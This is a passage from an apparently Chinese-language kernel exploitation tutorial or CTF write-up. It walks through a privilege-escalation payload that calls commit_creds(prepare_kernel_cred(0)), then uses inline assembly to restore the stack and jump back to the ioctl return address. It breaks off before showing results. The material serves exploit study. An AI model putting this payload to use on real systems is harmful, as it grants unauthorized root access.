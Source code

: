 ```asm6502
.text:00000000000012CB                 mov     rax, [rbp+prepare_kernel_cred]
.text:00000000000012CF                 mov     edi, 0
.text:00000000000012D4                 call    rax
.text:00000000000012D6                 mov     rdx, rax
.text:00000000000012D9                 mov     rax, [rbp+commit_cred]
.text:00000000000012DD                 mov     rdi, rdx
.text:00000000000012E0                 call    rax
.text:00000000000012E2                 nop
.text:00000000000012E3                 leave
.text:00000000000012E4                 retn
.text:00000000000012E4 ; } // starts at 12A9
.text:00000000000012E4 promote_root    endp
```

（pS：这里看起来有点奇怪，为什么没有栈平衡，即缺少mov rsp，rpb，或者add rsp,10h,如果需要手动平衡，我们保留：asm("mov %rbp,%rsp");)

执行promote_root函数开栈过程后，栈变成了：

> |--rip(ioctl)--|--rbx(ioctl)--|---rbp---|--size=0x10--|

因此在执行leave（pop rbp）后，会将rbx(ioctl)作为返回地址，即retn指令会落脚在rbx(ioctl)上。

方式1：在执行完成commit_creds(prepare_kernel_cred(0))后，直接跳转到0x:00000000000001B执行(即原始的返回地址执行)，当然要确保栈平衡，还需要将rbp弹窗：

其代码如下：

```c
void promote_root()
{

    int (*commit_cred)(struct cred *new);
    struct cred *(*prepare_kernel_cred)(struct task_struct *daemon);

    commit_cred = commit_cred_addr;
    prepare_kernel_cred =  prepare_kernel_cred_addr;
    (*commit_cred)((*prepare_kernel_cred)(0));

    asm("mov %rbp,%rsp");    //修复栈帧
    asm("pop %rbp"); //弹出rbp
    asm("mov %0,%%rax;\
        jmp %%rax;"
        :
        :"r"(ret_addr)
        :"%rax");

}
```

第一步：将rbp赋值rsp，因为rbp保存了原始的rsp（执行promote_root函数前）的值，因此只需要通过rbp还原rsp即可

第二步：将栈上的rbp弹出

第三步：直接跳转到ret_addr执行（0x:00000000000001B），此时暂时只有|--rip(ioctl)--|--rbx(ioctl)--|

执行效果如下：
